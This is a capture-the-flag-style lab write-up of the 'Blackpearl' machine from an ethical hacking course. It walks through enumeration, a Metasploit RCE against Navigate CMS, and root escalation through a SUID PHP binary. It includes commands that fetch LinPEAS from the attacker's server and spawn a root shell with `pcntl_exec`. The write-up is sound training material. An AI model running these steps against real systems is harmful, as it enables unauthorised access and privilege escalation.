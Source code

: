 # 5th Capstone Machine
This is my write-up for the fifth machine in the capstone section of the Practical Ethical Hacking course.

## Machine Information
- **Name**: Blackpearl
- **Difficulty**: Easy
- **OS**: Debian
  
## Tools Used
- nmap: For port scanning and service enumeration.
- ffuf: To fuzz for directories and subdomains.
- DNSRecon: Perform a PTR Record lookup.
- LinPEAS: Privilege escalation path enumeration.

## Objectives
- Enumerate the system and identify services.
- Discover vulnerabilities within the system.
- Exploit the vulnerabilities to gain initial access.
- Escalate privileges to root.
  
## Enumeration
1. Nmap scan:
  
  - The first step was to enumerate open ports and services using nmap:
  
    `nmap -A -v -p- 10.0.2.154`

    ![image](https://github.com/user-attachments/assets/e6d222a0-b2ae-4a85-a59f-0214576f0396)

  
2. Port 80 HTTP Enumeration:

- Accessing the web server at `http://10.0.2.154` displayed an Nginx install page.

- Fuzzing for directories did not result in futher findngs.
  
3. DNS Enumeration:

- Used dnsrecon to scan for dns records.

  `dnsrecon -r 127.0.0.0/24 -n 10.0.2.154 -d domain`

  ![image](https://github.com/user-attachments/assets/6d400e76-4f4d-4a8b-a710-49a5bf0464cf)

- Added the record to /etc/hosts.

- Navigating to `http://blackpearl.tcm` showed a PHP info page.

- Ran ffuf for directory fuzzing:

  `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ`

- Found the directory /navigate which showed a login page for Navigate CMS.
     
## Initial Access
- Researched for Navigate CMS vulnerabilities and found an unauthenticated RCE vulnerability that has a metasploit module.
  
- Using the metasploit module, set the rhost at blackpearl.tcm.

  ![image](https://github.com/user-attachments/assets/ed040ca4-c399-4b5a-b0a1-cf8578c652b1)

- Ran the exploit and a meterpreter session opened.

- Entered shell to drop into a shell and ran whoami to see that the shell is running as www-data.

- Since the machine has python, used it to spawn a tty.

  `python -c 'import pty; pty.spawn("/bin/bash")'`

## Priviledge Escalation
- Transfered LinPEAS to the target machine.

  `python3 -m http.server 80`

  `wget http://10.0.2.15/linpeas.sh linpeas.sh`

  `chmod +x linpeas.sh`

- LinPEAS found that the SUID bit is set on a PHP binary.

- GTFOBins gives the command to escalte privileges.

  `/usr/bin/php7.3 -r "pcntl_exec('/bin/bash', ['-p']);"

- This spawned a shell running as root.

  ![image](https://github.com/user-attachments/assets/e1f12cf8-c377-4ef3-b8ba-73a7f9286003)

## Lessons Learned
This machine provided practical experience in DNS enumeration, specifically understanding pointer records, server blocks, and configuring local DNS resolution with the /etc/hosts file. I also practiced privilege escalation techniques by identifying and exploiting SUID bits on binaries using LinPEAS and GTFOBins.

![image](https://github.com/user-attachments/assets/512bb12d-8dc9-4d8e-9970-7882dfb71ad5)
